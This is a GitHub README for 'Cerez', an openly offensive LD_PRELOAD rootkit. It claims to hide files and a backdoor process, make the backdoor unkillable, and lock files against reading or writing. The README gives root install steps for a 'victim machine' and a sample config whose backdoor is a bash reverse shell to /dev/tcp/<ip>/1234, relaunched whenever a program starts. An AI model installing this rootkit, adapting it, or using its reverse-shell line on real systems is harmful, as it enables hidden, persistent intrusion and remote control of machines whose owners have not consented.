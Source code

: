 <h1 align="center">
  <img src="assets/banner.png"/>  
  <br>
  Cerez 😈 A simple userland LD_PRELOAD rootkit
</h1>

Cerez is a configurable userland `LD_PRELOAD` rootkit, by installing it 
into `/etc/ld.so.preload`, you can preload it before every binary.
It can protect/hide your backdoor as well other files you want 
hidden. It does so by overwriting syscalls and functions like `open`, `unlinkat` etc.

## Features
- ✔ Hides files in the file system 
- ✔ Hides your backdoor in the process list 
- ❌ Hides connections in the network list
- ✔ Makes your backdoor unkillable 
- ✔ Makes files unreadable 
- ✔ Makes files unwriteable 

## Install 
### You will need to install `build-essential` to compile!
You can install it with `apt` on debian systems:
```bash
apt update && apt install build-essential
```
To install the rootkit on a victim machine run the following
as **ROOT**:
```bash
git clone https://github.com/ngn13/cerez.git && cd cerez
make && make install
cd .. && rm -rf cerez
```
Don't forget to edit `cerez.cfg` before install!

## Config `(/etc/cerez.cfg)`
Configuration is (really) simple, in the `backdoor` section,
leave your backdoor/malicious command, this will be run by the rootkit everytime a program starts (if its not already running).
Your backdoor will be hidden in the process list. It will 
be also unkillable.

In the `hidden` section, specify full paths for all the files that you want hidden.
```
backdoor = "bash -c 'bash -i >& /dev/tcp/<ip>/1234 0>&1'"
hidden = (
  { path = "/etc/cerez.cfg" },
  { path = "/etc/ld.so.preload" },
  { path = "/path/to/your/super/secret/file" }
);
```

## Resources
To learn more about `LD_PRELOAD` rootkits, I highly recommend you read [this
article](https://compilepeace.medium.com/memory-malware-part-0x2-writing-userland-rootkits-via-ld-preload-30121c8343d5).
I also left some comments in the [loader.c](rootkit/loader.c) so you can go ahead and read it.
You can also create an issue/PR if you are interested.
